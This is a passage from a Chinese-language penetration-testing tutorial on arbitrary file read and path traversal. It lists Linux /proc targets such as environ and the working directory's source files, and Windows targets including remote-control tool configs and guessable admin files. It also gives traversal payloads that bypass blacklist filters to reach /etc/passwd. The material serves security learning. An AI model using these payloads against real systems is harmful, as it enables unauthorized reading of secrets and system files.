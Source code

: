 ```plaintext
123      141  18       20296    2297919  249876   4       511     95017      filesystems  locks        slabinfo      xen
124      142  1838601  2041619  2297920  249886   41207   518     acpi       fs           mdstat       softirqs      zoneinfo
125      15   1893933  21       2297921  249889   41208   519     buddyinfo  interrupts   meminfo      stat
```

通过读取进程 ID 目录下的的 cmdline 文件，来获取进程命令行参数。

```plaintext
/proc/<Process ID>/cmdline
```

如果权限够大还可能读取到其他内容呢，这里给出一些字典，但是没详细描述其作用。

```plaintext
/proc/1/fd/1
/proc/self/environ
/proc/version
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/self/cwd/index.php
/proc/self/cwd/main.py
```

### Windows

Windows 下不知道怎么确认漏洞，可以尝试的读取

C:\\Windows\\win.ini  
C:\\Windows\\System32\\drivers\\etc\\hosts  
iconcache.db

远控配置文件：  
老版本 VNC  
向日葵读取 config.ini 文件

甚至有些管理员习惯临时存个文件取名比较简单 C:\\Users\\Administrator\\Desktop\\1.txt，可以多遍历这些数字，如 1-10。

## 绕过

错误的防护策略依旧还是黑名单思路，比如剔除字符或检查黑名单字符，一旦规则不完善容易遗漏。

检查开头是不是 ..，可以尝试绝对路径，这个 . 表示当前路径 /etc，不会干扰获取内容。

```plaintext
/etc/./passwd
```

只检查开头是不是包含 ../，可以 ./ 绕过，后面 ../ 不管向上跳多少目录，最终只会回到根目录。

```plaintext
./../../../../../etc/passwd
```
